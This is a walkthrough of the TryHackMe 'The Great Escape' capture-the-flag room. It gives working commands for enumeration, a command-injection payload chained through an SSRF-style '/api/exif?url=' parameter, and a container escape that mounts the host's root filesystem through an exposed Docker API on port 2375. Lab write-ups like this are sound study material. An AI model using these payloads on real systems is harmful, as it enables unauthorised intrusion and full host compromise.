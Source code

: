 ```yaml
---
title: "THM: The Great Escape"
date: 2025-03-03
categories: [CTF, Red Team]
tags: [CTF, Red Team]
permalink: /posts/ctf-the-great-escape
image:
  path: /assets/img/thumbnails/ctf-the-great-escape.png
---
```




### **Walkthrough**

#### **CTF Platform**: TryHackMe  
#### **Level**: Medium  

#### **Tools Used**:

  - Nmap  
  - Gobuster  
  - Curl  
  - Docker  
  - Git  

#### **Resources Used:**:

  - [Tryhackme](https://tryhackme.com/room/thegreatescape)
  - Wordlists (e.g., `/usr/share/wordlists/dirb/big.txt`)  
  - GitHub Repository for Knock Tool  


## **Steps for the CTF**

---

### Task 2: A Simple Webapp  
**Objective**: Start off with a simple web application. Can you find the hidden flag?

#### Enumeration
1. Perform a full port scan using `nmap` to identify open ports and services running on the target machine.
   ```bash
   nmap -sSCV -p- <IP>
   ```
   - Use this command to gather information about the services running on the target.

2. Use `gobuster` to discover hidden directories or files on the web server.
   ```bash
   gobuster dir -f -u http://<IP> -w /usr/share/wordlists/dirb/big.txt
   ```
   - This will help you identify important endpoints that may contain useful information.

3. Check for security-related files such as `security.txt`.
   ```bash
   curl http://<IP>/.well-known/security.txt
   ```
   - Look for any hints or clues in the response.

4. Inspect HTTP headers for additional information.
   ```bash
   curl -I http://<IP>//api/fl46
   ```
   - Analyze the headers to uncover potential vulnerabilities or hidden paths.

#### Finding the Flag
- After enumerating the web application, locate the hidden flag.  
- **Hint**: The flag is stored in a specific endpoint. Use your enumeration results to identify it.

---

### Task 3: Root! Root?  
**Objective**: Gain access to the system and retrieve the second flag.

#### Enumeration
1. Check for common files like `robots.txt` to discover restricted or hidden paths.
   ```bash
   curl http://<IP>/robots.txt
   ```

2. Explore the discovered paths, such as `/exif-util`, to understand their functionality.

3. Investigate the `/api/exif` endpoint for potential vulnerabilities.
   - Example:
     ```bash
     curl http://<IP>/api/exif?url=http://api-dev-backup:8080
     ```

#### Exploitation
- The `/api/exif` endpoint appears to be vulnerable to command injection.  
- Experiment with payloads to execute commands on the server.  
  - Example:
    ```bash
    curl http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;ls ~
    ```
  - Use this technique to enumerate files and directories on the server.

#### Retrieving the Flag
- Once you gain command execution, explore sensitive files such as `/etc/passwd`, user home directories, and other critical locations.  
- **Hint**: Look for files like `dev-note.txt` or version control logs (e.g., `.git`) to uncover the flag.

---

### Task 4: The Great Escape  
**Objective**: Escalate privileges from the Docker container to the host system and retrieve the final flag.

#### Enumeration
1. Identify open ports on the target machine that may be related to Docker.
   ```bash
   nmap <IP> -p 2375
   ```
   - Port `2375` is commonly used for Docker API communication.

2. Clone the `knock` tool from GitHub to interact with the Docker API.
   ```bash
   git clone https://github.com/grongor/knock.git
   cd knock
   ./knock <IP> 42 1337 10420 6969 63000
   ```

#### Exploitation
1. Configure Docker to allow remote connections by modifying its configuration file.
   ```bash
   sudo nano /etc/docker/daemon.json
   ```
   - Restart Docker to apply the changes:
     ```bash
     sudo systemctl stop docker
     sudo systemctl start docker
     ```

2. Use the Docker API to interact with the container and escalate privileges.
   ```bash
   docker -H <IP>:2375 images
   docker -H <IP>:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt sh
   ```

#### Retrieving the Flag
- Once inside the container, navigate to the host's root directory and explore critical files.
  - Example:
    ```bash
    cat /etc/passwd
    cd /root
    ls
    cat flag.txt
    ```
- **Hint**: The final flag is located in the `/root` directory of the host system.
